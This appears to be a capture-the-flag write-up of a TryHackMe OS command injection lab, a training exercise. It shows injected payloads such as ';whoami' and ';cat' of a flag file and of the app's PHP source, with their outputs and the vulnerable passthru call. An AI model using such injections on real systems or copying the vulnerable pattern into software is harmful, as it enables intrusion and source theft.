



# oscommandinjection

### https://tryhackme.com/room/oscommandinjection
### Hein Andre Grønnestad
### 2021-10-10

---

## Task 5

We have access to the following web interface:



This web tool can be used to ping an IP address. Let's try it:



After waiting for the `ping`-command to finish, we get the following results back:

```
Here is your command: 127.0.0.1

Output:

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.015 ms 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.029 ms 64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.030 ms 64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.028 ms --- 127.0.0.1 ping statistics --- 4 packets transmitted, 4 received, 0% packet loss, time 3061ms rtt min/avg/max/mdev = 0.015/0.025/0.030/0.006 ms
```

### Task 5 - What user is this application running as?

We need to try and execute the `whoami`-command through the web interface to see which user the web application is running as.

Let's start by guessing that the server side code looks something like this:

```php
echo system("ping $user_input");
```

So when we enter `127.0.0.1` it will look like this:

```php
echo system("ping 127.0.0.1");
```

We can only change the part that comes after `ping `.

The simplest thing would be to try to add an extra command to the input.

Let's try the follwing payload where we add another command by adding a `;` followed by a second command:

```
127.0.0.1;whoami
```

This is what we receive back. Notice the `{whoami_output}` at the end of the output:

```
Here is your command: 127.0.0.1;whoami

Output:

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.016 ms 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.029 ms 64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.038 ms 64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.030 ms --- 127.0.0.1 ping statistics --- 4 packets transmitted, 4 received, 0% packet loss, time 3080ms rtt min/avg/max/mdev = 0.016/0.028/0.038/0.007 ms {whoami_output}
```

If we ommit the ip address we don't even have to wait for the `ping`-command to finish.

Payload:
```
;whoami
```

Output:
```
Here is your command: ;whoami

Output:

{whoami_output}
```

### Task 5 - What are the contents of the flag located in /home/tryhackme/flag.txt?

Payload:
```
;cat /home/tryhackme/flag.txt
```

Output:
```
Here is your command: ;cat /home/tryhackme/flag.txt

Output:

THM{**************************}
```

## Extra Credit

### Exfiltrate Web App Code

Payload:
```
;ls
```

Output:
```
Here is your command: ;ls

Output:

css img index.php js test.php
```

Payload:
```
;cat index.php
```

Output Screenshot:



We can see the HTML-page renderen in the browser, but with the PHP-variables visible.

"View Page Source" gives us the following:

Output:
```php
// ... HTML template removed
<?php
if (isset($_GET["address"])) {
    $command = $_GET["address"];
    echo "<p><b>Here is your command: </b>$command</p>";

    echo "<p><b>Output: </b>$result</p>";

    $result = passthru("/bin/ping -c 4 ".$_GET["address"]);
}
?>
```

We can clearly see the vulnerable code:
```php
$result = passthru("/bin/ping -c 4 ".$_GET["address"]);
```


### Reverse Shell
We could probably get a reverse shell from the server as well.
